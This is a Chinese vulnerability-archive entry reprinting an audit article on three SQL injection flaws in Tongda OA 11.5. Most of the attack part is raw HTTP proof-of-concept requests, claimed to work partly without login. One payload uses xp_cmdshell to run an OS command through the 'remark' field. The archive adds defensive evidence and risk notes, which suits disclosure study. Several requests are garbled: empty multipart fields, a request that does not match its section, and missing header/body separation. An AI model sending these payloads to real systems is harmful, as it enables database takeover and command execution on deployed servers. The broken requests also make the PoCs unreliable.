










# 通达OA swfupload_new、file_folder、meetingreceipt SQL 注入集合

## 条目说明

- 对象与具体问题：通达OA；swfupload_new、file_folder、meetingreceipt SQLi集合
- 版本、配置及部署条件：11.5实测
- 认证与权限前提：swfupload声称未授权，其他请求有Cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 第1节multipart字段全丢；第2节CONTENT_ID_STR错配remark请求
- 第3节头体无空行，xp_cmdshell为SQL Server语法，需核实际DB
- 第2项仅报错和条件尝试，不应标完整利用；保留逐漏洞鉴权条件

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/RlOpohHvjHv_Qg3mNgDCAQ)

  

**这是继：" 全网首发 | 通达 OA 多枚 0day 分享 "   对通达 OA 系统更加深入的一次审计，重新审计后又发现一些问题。**  



  
**0x01** **SQL 注入 POC(11.5 版本无需登录):**  
**漏洞参数：**SORT_ID，FILE_SORT  
**审计版本：**通达 OA 11.5

```http
POST /general/file_folder/swfupload_new.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/
Connection: close
Host: 192.168.202.1
Content-Length: 391
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2
Content-Disposition: form-data; 

------------GFioQpMK0vv2--
```

> 请求长度说明：原资料 Content-Length 为 391；保留原始标头；其数值未据实际请求体重新计算或验证。

```http
POST /general/file_folder/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/file_folder/public_folder.php?FILE_SORT=1&SORT_ID=59
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 82
x-wvs-id: Acunetix-Deepscan/209
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

CONTENT_ID_STR=222&SORT_ID=59&FILE_SORT=1&action=sign
```

> 请求长度说明：原资料 Content-Length 为 82；保留原始标头；其数值未据实际请求体重新计算或验证。

看看下图，在我去掉 cookie 之后，发现一样能注入，我测试的 11.5 版本存在未授权也能注入。  



  
漏洞文件：**webroot\general\file_folder\swfupload_new.php** 。  
先看 SORT_ID 与 FILE_SORT 参数，这两个参数都 是通过 $data[""]; 来接收变量，都直接带入 SQL 查询语句中，没有做任何过滤，造成注入。  





  
**0x02** **SQL 注入 POC（有过滤）:**  
**漏洞参数：**CONTENT_ID_STR  
**审计版本：**通达 OA 11.5

```http
POST /general/appbuilder/web/meeting/meetingmanagement/meetingreceipt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/meeting/myapply/details.php?affair=true&id=5&nosign=true&reminding=true
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 97
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8

m_id=5&join_flag=2&remark='%3b%20exec%20master%2e%2exp_cmdshell%20'ping%20172%2e10%2e1%2e255'--
```

> 请求长度说明：原资料 Content-Length 为 97；保留原始标头；其数值未据实际请求体重新计算或验证。



  
漏洞文件：**webroot\general\file_folder\folder.php**。  
但是经过了 td_trim 函数，会过滤掉：空格、制表符、换行符、回车符、垂直制表符等。只能报错，或尝试 and 等语句判断还是没有问题的。  





  
如果有厉害的师傅会有戏，可以绕绕试试了，先放这里了。  



  
**0x03** **SQL 注入 POC:**  
**漏洞参数：**remark  
**审计版本：**通达 OA 11.5

```http
POST /general/appbuilder/web/meeting/meetingmanagement/meetingreceipt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/general/meeting/myapply/details.php?affair=true&id=5&nosign=true&reminding=true
X-Resource-Type: xhr
Cookie: PHPSESSID=g1njm64pl94eietps80muet5d7; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=fab32701
Connection: close
Host: 192.168.202.1
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 97
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
content-type: application/x-www-form-urlencoded; charset=UTF-8
m_id=5&join_flag=2&remark='%3b%20exec%20master%2e%2exp_cmdshell%20'ping%20172%2e10%2e1%2e255'--
```



  
漏洞文件：**webroot\general\appbuilder\modules\meeting\models\MeetingReceipt.php**。漏洞存在于 $remark=$data['remark']; 与 $form->REMARK = $remark; 可以看到 remark 参数没有过滤，直接拼接到 insert 语句中造成的注入。  



**END.**

**欢迎转发~**

**欢迎关注~**

**欢迎点赞~**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
